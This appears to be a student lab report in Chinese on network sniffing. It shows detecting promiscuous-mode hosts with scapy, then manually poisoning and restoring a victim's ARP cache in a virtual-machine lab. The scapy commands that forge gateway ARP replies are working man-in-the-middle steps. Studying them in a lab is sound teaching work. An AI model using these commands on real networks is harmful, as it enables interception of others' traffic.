 # EXP4-网络监听

## 实验一：检测局域网中的异常终端

### 实验环境

* 受害者：Gateway（Debian10）
* 攻击者：Attacker（Kali 2021.2）

* ![未命名文件](img/topology-exp1.jpg)

### 实验步骤

1. 在受害者主机上检查网卡的「混杂模式」是否启用

   ```
   ip link show enp0s3
   ```

   受害者主机目前并未启用混杂模式：![image-20211009142347629](img/link-show.jpg)

2. 攻击者主机上开启scapy，并发送一个混杂模式探测的包给靶机。

   ```shell
   sudo su
   
   scapy
   
   pkt = promiscping("10.0.2.15")
   ```

   ![image-20211009143505797](img/vic-no-response.png)

3. 在受害者主机上手动开启混杂模式

   `PROMISC`字样说明已开启混杂模式

   ![image-20211009142638625](img/link-show-openPromisc.png)

4. 攻击者再次在scapy终端里发送一个探测包

   可以看到攻击者收到了一个回复包，并且回复是来自受害者的（10.0.2.15）![image-20211009143623200](img/vic-response.png)

5.  手动关闭该网卡的「混杂模式」

### 总结

* 在正常模式下，只接收目的 MAC 地址的自己的数据包，其他将一律丢弃
* 在混杂模式下，网卡并不检查目的 MAC 地址，对所有的数据包都来者不拒。
* 则构造一个目的MAC地址错误的ARP请求数据包，发给处于混杂模式下的靶机，是可以得到回应的。

---



## 实验二：手工单步“毒化”目标主机的 ARP 缓存

### 实验环境

#### 网络拓扑

![未命名文件 (1)](img/topology-2.jpg)

如图所示网络中的节点基本信息如下：

- 攻击者主机
  - 08:00:27:66:75:e3 / eth0
  - 172.16.111.118
- 受害者主机
  - 08:00:27:0e:34:8d / eth0
  - 172.16.111.111
- 网关
  -  08:00:27:91:80:c3 / enp0s9
  - 172.16.111.1



## 实验步骤

1. 攻击者开启scapy，构造ARP请求

   ```shell
   arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
   ```

   查看构造好的AROP请求报文详情

   ```shell
   arpbroadcast.show()
   ```

   ![image-20211009161719315](img/arp-fake.png)

   

2. 发送这个 ARP 广播请求

   ```shell
   recved = srp(arpbroadcast, timeout=2)
   ```

   ![image-20211009161940823](img/arp-bordcast.png)

   * 成功获取网关的mac地址

3. 伪造网关的 ARP 响应包，准备发送给受害者主机`172.16.111.111`。ARP 响应的目的 MAC 地址设置为**攻击者主机**的 MAC 地址

   ```
   arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111", hwdst="08:00:27:66:75:e3")
   ```

   发送上述伪造的 ARP 响应数据包到受害者主机

   ```
   sendp(arpspoofed)
   ```

   ![image-20211009164659613](img/arp-fake-gw.jpg)

   ![image-20211010120657966](img/poison-success.jpg)

   * 在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

4. 回到攻击者主机上的 **scapy 交互式终端**继续执行命令。

   * 恢复受害者主机的 ARP 缓存记录

     * **伪装网关**给受害者发送 ARP 响应

       ```shell
       #制作新的arp伪装包
       restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:91:80:c3 ", pdst="172.16.111.111", hwdst="08:00:27:0e:34:8d")
       #发送
       sendp(restorepkt1, count=100, inter=0.2)
       ```

       ![image-20211010121746388](img/restore-arp-fakegw.jpg)

     * **伪装受害者**给网关发送 ARP 响应

       ```shell
       #制作新的arp伪装包
       restorepkt2 = ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:91:80:c3", psrc="172.16.111.111", hwsrc="08:00:27:0e:34:8d")
       # 发送
       sendp(restorepkt2, count=100, inter=0.2)
       ```

       ![image-20211010121910098](img/restore-arp-attacker.png)

5. 在受害者主机上准备“刷新”网关 ARP 记录。

   ```bash
   ## 在受害者主机上尝试 ping 网关
   ping 172.16.111.1
   ## 静候几秒 ARP 缓存刷新成功，退出 ping
   ## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
   ip neigh
   ```

   ![image-20211010122110865](img/restore-success.png)

## 实验问题与解决

1. 根据课本的方法：攻击者发送伪造arp响应时不成功。

   * 在构造的arp伪装包前增加Ether（）语句即可

     ```shell
     arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111", hwdst="08:00:27:66:75:e3")
     
     # 更改为
     arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111", hwdst="08:00:27:66:75:e3")
     ```

     